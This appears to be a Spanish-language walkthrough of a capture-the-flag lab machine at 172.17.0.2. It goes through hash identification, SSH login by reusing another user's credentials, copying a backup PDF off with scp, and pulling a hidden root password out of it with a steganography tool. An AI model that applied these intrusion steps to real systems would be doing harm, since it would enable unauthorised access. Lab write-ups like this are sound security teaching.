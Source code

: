 Tenemos un usuario potencial **balulero** en el sistema, y con su password es que mas seguro **md5**
```bash
hashid 520d3142a140addb8be7d858a7e29e15
Analyzing '520d3142a140addb8be7d858a7e29e15'
[+] MD2 
[+] MD5
```

Usando este herramienta only [md5decrypt](https://10015.io/tools/md5-encrypt-decrypt) pero no obtenemos nada, 
### Intrusion
Ahora lo que aremos es usar al usuario **capybara** como **passowrd** para el usuario **balulero**
Existe reutilizacion de credenciales entre los usuarios
```bash
# Reverse shell o acceso inicial
ssh balulero@172.17.0.2 # ( password1 )
```

---

## Escalada de Privilegios

###### Usuario `[ Balulero ]`:
En esta ruta tenemos lo siguiente:
```bash
/home/balulero/server

-rw-r--r-- 1 root root 31654 Feb  2 11:21 backup.pdf
```

Nos transferimos a nuestra maquina de atacante:
```bash
scp balulero@172.17.0.2:/home/balulero/server/backup.pdf . # ( password1 )
```

Ahora que tenemos el archivo en nuestra maquina de atacante, al abrirlo tenemos un apartado donde nos indica que es una contrasena pero esta **ofuscada**, Asi que usamo esta herramienta only: 
[Estegoline](https://stegonline.georgeom.net/) para desofuscar la imagen: y obtenemos el texto ya desofuscado:
```bash
passwordpepinaca
```

Ahora usamo esta password para loguearnos com **root**
```bash
# Comando para escalar al usuario: ( root )
su root # ( passwordpepinaca )
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@fefbd6f4706e:/home/balulero/server# whoami
root
```
